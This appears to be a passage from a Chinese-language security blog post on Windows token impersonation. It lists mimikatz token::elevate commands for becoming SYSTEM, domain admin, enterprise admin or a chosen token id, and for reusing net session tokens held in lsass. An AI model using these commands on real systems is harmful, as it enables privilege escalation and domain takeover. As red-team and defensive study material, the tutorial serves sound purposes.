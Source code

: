 假冒成system：

```
token::elevate
```

假冒成domain admin：

```
token::elevate /domainadmin
```

假冒成enterprise admin：

```
token::elevate /enterpriseadmin
```

假冒成admin：

```
token::elevate /admin
```

假冒成id为123456的token：

```
token::elevate /id:123456
```


## 0x04 net session的利用
---

net session的token保存在lsass进程中，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-12-3/3-0.png)

在利用上，net session等同于对其token的利用


### 1、mimikatz

假冒成id为6919466的token：

```
token::elevate /id:6919466
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-12-3/3-4.png)

**注：**

上述操作只改变了Thread Token

Windows下有两种token：Primary Token和Impersonation Token

Primary Token对应Process Token，每个进程都有唯一的Primary Token

Impersonation Token对应Thread Token，可以被修改
